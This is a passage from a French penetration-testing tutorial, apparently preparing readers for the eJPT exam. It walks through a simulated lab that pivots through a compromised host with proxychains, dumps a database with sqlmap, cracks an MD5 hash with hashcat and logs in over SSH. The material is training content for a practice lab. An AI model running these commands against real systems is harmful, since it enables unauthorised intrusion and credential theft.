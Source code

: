 **En clair, pour un débutant** : Nous avons utilisé la machine Windows compromise comme un pont pour accéder à un réseau interne normalement inaccessible, puis scanné ce réseau pour trouver de nouvelles cibles.

#### Exploitation finale

```bash
# Tentative de connexion SSH avec les identifiants crackés
proxychains ssh administrator@10.10.20.15
# Échec : Mauvais identifiants

# Énumération web
proxychains curl http://10.10.20.15
# Résultat : Page de login pour un système de gestion interne

# Test d'injection SQL
proxychains sqlmap -u "http://10.10.20.15/login.php" --forms --dump
# Résultat : Base de données d'utilisateurs extraite avec hachages MD5

# Cracking des hachages MD5
echo "5f4dcc3b5aa765d61d8327deb882cf99" > md5hash.txt
hashcat -m 0 md5hash.txt /usr/share/wordlists/rockyou.txt
# Résultat : "password"

# Connexion SSH avec les nouveaux identifiants
proxychains ssh admin@10.10.20.15
# Mot de passe : password
# Résultat : Accès obtenu

# Capture du flag final
cat /home/admin/final_flag.txt
# FLAG{network_pivoting_master}
```

**En clair, pour un débutant** : Nous avons découvert une application web vulnérable sur le serveur interne, extrait sa base de données d'utilisateurs, puis utilisé les identifiants obtenus pour nous connecter directement au serveur et récupérer le flag final.

### Conclusion de l'examen simulé

Ce scénario complet vous a permis de mettre en pratique :
1. La reconnaissance et l'énumération de réseau
2. L'exploitation de vulnérabilités web
3. L'élévation de privilèges
4. L'extraction et le cracking d'identifiants
5. Le pivotement réseau
6. L'exploitation d'injections SQL

Ces compétences sont exactement celles qui seront évaluées lors de l'examen eJPT réel. En maîtrisant ce scénario, vous serez bien préparé pour réussir l'examen.

## 13. Mini-lab récapitulatif : Metasploitable 2

